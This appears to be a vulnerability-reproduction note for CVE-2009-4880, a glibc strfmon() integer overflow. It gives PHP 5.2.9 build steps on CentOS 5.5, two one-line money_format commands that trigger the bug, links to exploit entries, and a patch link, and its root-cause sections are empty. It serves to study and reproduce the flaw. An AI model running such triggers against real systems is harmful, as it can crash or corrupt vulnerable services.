 # CVE-2009-4880

## Experiment Environment

CentOS 5.5

## INSTALL & Configuration

Preinstalled environment and install php

```
tar -xvf php-5.2.9.tar.gz
cd php-5.2.9
./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
./sapi/cli/php -r 'money_format("%.1073741821i",1);'
./sapi/cli/php -r 'money_format("%.1343741821i",1);'
```

## PoCs

[ GNU glibc 'strfmon()' Function Integer Overflow Weakness](https://bugs.gentoo.org/285818)

[GNU glibc 'strfmon()' Function Integer Overflow Weakness](https://www.securityfocus.com/bid/36443/exploit)

[GNU glibc 2.x - 'strfmon()' Integer Overflow](https://www.exploit-db.com/exploits/33230/)

https://exchange.xforce.ibmcloud.com/vulnerabilities/59242
## Vulnerability Patch

### Root Cause

### Stack Trace

### Patch

See details in <https://sourceware.org/git/?p=glibc.git;a=commit;h=199eb0de8d673fb23aa127721054b4f1803d61f3>

## References
